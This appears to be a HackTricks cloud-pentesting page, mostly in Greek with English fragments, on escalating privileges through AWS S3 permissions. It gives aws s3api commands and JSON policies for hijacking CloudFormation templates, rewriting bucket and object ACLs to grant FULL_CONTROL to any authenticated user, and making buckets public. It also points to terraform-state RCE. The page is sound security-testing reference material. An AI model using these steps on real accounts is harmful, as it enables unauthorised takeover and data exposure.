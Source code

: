 # AWS - S3 Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## S3

### `s3:PutBucketNotification`, `s3:PutObject`, `s3:GetObject`

Ένας attacker με αυτές τις permissions πάνω σε ενδιαφέροντα buckets μπορεί να hijack resources και να escalate privileges.

Για παράδειγμα, ένας attacker με αυτές τις **permissions over a cloudformation bucket** που ονομάζεται "cf-templates-nohnwfax6a6i-us-east-1" θα μπορεί να hijack το deployment. Η πρόσβαση μπορεί να δοθεί με την ακόλουθη policy:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": [
"s3:PutBucketNotification",
"s3:GetBucketNotification",
"s3:PutObject",
"s3:GetObject"
],
"Resource": [
"arn:aws:s3:::cf-templates-*/*",
"arn:aws:s3:::cf-templates-*"
]
},
{
"Effect": "Allow",
"Action": "s3:ListAllMyBuckets",
"Resource": "*"
}
]
}
```
And the hijack is possible because there is a **small time window from the moment the template is uploaded** to the bucket to the moment the **template is deployed**. An attacker might just create a **lambda function** in his account that will **trigger when a bucket notification is sent**, and **hijacks** the **content** of that **bucket**.

![](<../../../images/image (174).png>)

The Pacu module [`cfn__resouce_injection`](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#cfn__resource_injection) can be used to automate this attack.\
Για περισσότερες πληροφορίες δείτε την αρχική έρευνα: [https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/](https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/)

### `s3:PutObject`, `s3:GetObject` <a href="#s3putobject-s3getobject" id="s3putobject-s3getobject"></a>

Αυτά είναι τα δικαιώματα για να **λαμβάνετε και να ανεβάζετε αντικείμενα στο S3**. Πολλές υπηρεσίες μέσα στο AWS (και έξω από αυτό) χρησιμοποιούν αποθήκευση S3 για να αποθηκεύουν **config files**.\
Ένας επιτιθέμενος με **δικαίωμα ανάγνωσης** σε αυτά μπορεί να βρει **ευαίσθητες πληροφορίες**.\
Ένας επιτιθέμενος με **δικαίωμα εγγραφής** σε αυτά θα μπορούσε να **τροποποιήσει τα δεδομένα για να καταχραστεί κάποια υπηρεσία και να προσπαθήσει να αποκτήσει αυξημένα προνόμια**.\
Αυτά είναι μερικά παραδείγματα:

- If an EC2 instance is storing the **user data in a S3 bucket**, an attacker could modify it to **execute arbitrary code inside the EC2 instance**.

### `s3:PutObject`, `s3:GetObject` (optional) over terraform state file

Είναι πολύ συνηθισμένο τα state files του [terraform](https://cloud.hacktricks.wiki/en/pentesting-ci-cd/terraform-security.html) να αποθηκεύονται σε blob storage των παρόχων cloud, π.χ. στο AWS S3. Η κατάληξη αρχείου για state file είναι `.tfstate`, και τα ονόματα των buckets συχνά αποκαλύπτουν ότι περιέχουν αρχεία state του terraform. Συνήθως, κάθε λογαριασμός AWS έχει ένα τέτοιο bucket για να αποθηκεύει τα state files που δείχνουν την κατάσταση του λογαριασμού. Επίσης συνήθως, σε πραγματικούς λογαριασμούς σχεδόν πάντα όλοι οι developers έχουν `s3:*` και μερικές φορές ακόμα και επιχειρηματικοί χρήστες έχουν `s3:Put*`.

Έτσι, αν έχετε τα δικαιώματα που αναφέρονται πάνω σε αυτά τα αρχεία, υπάρχει ένα διάνυσμα επίθεσης που σας επιτρέπει να αποκτήσετε RCE στο pipeline με τα προνόμια του `terraform` - τις περισσότερες φορές `AdministratorAccess`, κάνοντάς σας τον διαχειριστή του cloud λογαριασμού. Επίσης, μπορείτε να χρησιμοποιήσετε αυτό το διάνυσμα για να πραγματοποιήσετε επίθεση άρνησης υπηρεσίας κάνοντας το `terraform` να διαγράψει νόμιμους πόρους.

Follow the description in the *Abusing Terraform State Files* section of the *Terraform Security* page for directly usable exploit code:

{{#ref}}
../../../../pentesting-ci-cd/terraform-security.md#abusing-terraform-state-files
{{#endref}}

### `s3:PutBucketPolicy`

Ένας επιτιθέμενος, ο οποίος πρέπει να είναι **από τον ίδιο λογαριασμό**, αλλιώς θα εμφανιστεί το σφάλμα `The specified method is not allowed will trigger`, με αυτό το δικαίωμα θα μπορεί να παραχωρήσει στον εαυτό του περισσότερα δικαιώματα πάνω στο/στα bucket(s) επιτρέποντάς του να διαβάζει, να γράφει, να τροποποιεί, να διαγράφει και να εκθέτει buckets.
```bash
# Update Bucket policy
aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>

## JSON giving permissions to a user and mantaining some previous root access
{
"Id": "Policy1568185116930",
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:root"
},
"Action":"s3:ListBucket",
"Resource":"arn:aws:s3:::somebucketname"
},
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:user/username"
},
"Action":"s3:*",
"Resource":"arn:aws:s3:::somebucketname/*"
}
]
}

## JSON Public policy example
### IF THE S3 BUCKET IS PROTECTED FROM BEING PUBLICLY EXPOSED, THIS WILL THROW AN ACCESS DENIED EVEN IF YOU HAVE ENOUGH PERMISSIONS
{
"Id": "Policy1568185116930",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Stmt1568184932403",
"Action": [
"s3:ListBucket"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome",
"Principal": "*"
},
{
"Sid": "Stmt1568185007451",
"Action": [
"s3:GetObject"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome/*",
"Principal": "*"
}
]
}
```
### `s3:GetBucketAcl`, `s3:PutBucketAcl`

Ένας επιτιθέμενος θα μπορούσε να καταχραστεί αυτά τα δικαιώματα για να αποκτήσει περισσότερη πρόσβαση σε συγκεκριμένα buckets.\
Σημειώστε ότι ο επιτιθέμενος δεν χρειάζεται να προέρχεται από τον ίδιο λογαριασμό. Επιπλέον, η πρόσβαση εγγραφής
```bash
# Update bucket ACL
aws s3api get-bucket-acl --bucket <bucket-name>
aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectAcl`

Ένας επιτιθέμενος θα μπορούσε να καταχραστεί αυτά τα δικαιώματα για να αποκτήσει περισσότερη πρόσβαση σε συγκεκριμένα objects μέσα σε buckets.
```bash
# Update bucket object ACL
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectVersionAcl`

Ένας επιτιθέμενος με αυτά τα προνόμια αναμένεται να μπορεί να εφαρμόσει ένα Acl σε μια συγκεκριμένη object version
```bash
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --version-id <value> --access-control-policy file://objacl.json
```
{{#include ../../../../banners/hacktricks-training.md}}
